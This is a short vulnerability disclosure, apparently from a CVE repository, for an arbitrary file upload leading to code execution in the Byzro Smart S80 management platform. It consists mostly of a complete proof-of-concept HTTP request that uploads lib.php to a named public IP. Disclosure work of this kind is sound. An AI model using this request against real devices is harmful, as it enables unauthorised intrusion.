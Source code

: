 Byzro Networks Smart S80 management platform has rce vulnerability

version:S80

1. The login interface is as shown in the figure.

![image](https://github.com/Carol7S/cve/assets/61347536/c9c8e080-48ef-4951-86a0-dc7739251fb3)

2. Construct the POC and successfully upload the lib.php file

POC

```
POST /sysmanage/updatelib.php? HTTP/1.1
Host: 125.67.126.126:8443
Cookie: PHPSESSID=0d7f26e9540305f56c8a19dde3b88751
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 700
Origin: https://125.67.126.126:8443
Referer: https://125.67.126.126:8443/sysmanage/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="ck"

radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="lib.php"
Content-Type: application/octet-stream

12345
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_tftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="hid_ftp_ip"


-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

set
-----------------------------42328904123665875270630079328—
```
![image](https://github.com/Carol7S/cve/assets/61347536/22a23ace-508c-4f55-aab7-3bc0fdc4f000)

3.Visit /home/lib.php

![image](https://github.com/Carol7S/cve/assets/61347536/bd00b4de-1b67-499d-ad1c-39006afe467f)

